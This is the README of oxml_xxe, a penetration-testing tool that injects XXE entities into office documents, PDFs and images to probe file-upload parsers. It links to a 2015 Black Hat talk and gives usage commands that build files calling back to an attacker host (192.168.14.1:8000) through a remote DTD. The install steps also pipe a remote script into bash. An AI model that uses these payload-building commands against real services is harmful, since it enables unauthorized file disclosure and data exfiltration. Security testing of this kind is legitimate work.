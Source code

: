 # oxml_xxe
This tool is meant to help test XXE vulnerabilities in ~~OXML document~~ file formats. Currently supported:

- DOCX/XLSX/PPTX
- ODT
- PDF
- JPG
- GIF (experimental)

BH USA 2015 Presentation:

[Exploiting XXE in File Upload Functionality (Slides)](http://oxmlxxe.github.io/reveal.js/slides.html#/) [(Recorded Webcast)](https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html)

Blog Posts on the topic:

[Exploiting XXE Vulnerabilities in OXML Documents - Part 1](http://www.silentrobots.com/blog/2015/03/04/oxml_xxe/)

# Installation

Installation is easy, you will need a copy of Ruby and two gems.

```
gem install highline
gem install zipruby
```

or


```
gem install bundler
bundle install
```

To install on  Kali Linux (rolling), if you receive the error "ERROR:  Error installing zipruby", you will need to run the following commands before installing zipruby (there may be other solutions).


```
gpg2 --keyserver hkp://keys.gnupg.net --recv-keys 409B6B1796C275462A1703113804BB82D39DC0E3
\curl -sSL https://get.rvm.io | bash -s stable --ruby
```
# Quick Examples

## Build a PDF with XXE in XMP (metadata)
```
ruby oxml_xxe.rb --poc pdf -i 192.168.14.1:8000
```

## Build a DOCX with XXE (connecting back to 192.168.14.1:8000)
```
ruby oxml_xxe.rb -s -i 192.168.14.1:8000

Select payload 11 ("remote_DTD")
```

## Build a XLSX with XXE (connecting back to ftp://192.168.14.1:8000)
```
ruby oxml_xxe.rb -f samples/sample.xlsx -s -i ftp://192.168.14.1:8000

Select payload 11 ("remote_DTD")
```


# Main Modes

There are two main modes:

## Build Mode ("-b")

Build mode adds a DOCTYPE and inserts the XML Entity into the file of the users choice.

## String Replacement Mode ("-s")

String replacement mode goes through and looks for the symbol § in the document. The XML Entity ("&xxe;") replaces any instances of this symbol. Note, you can open the document in and insert § anywhere to have it replaced. The common use case would be a web application which reads in a xlsx and then prints the results to the screen. Exploiting the XXE it would be possible to have the contents printed to the screen.

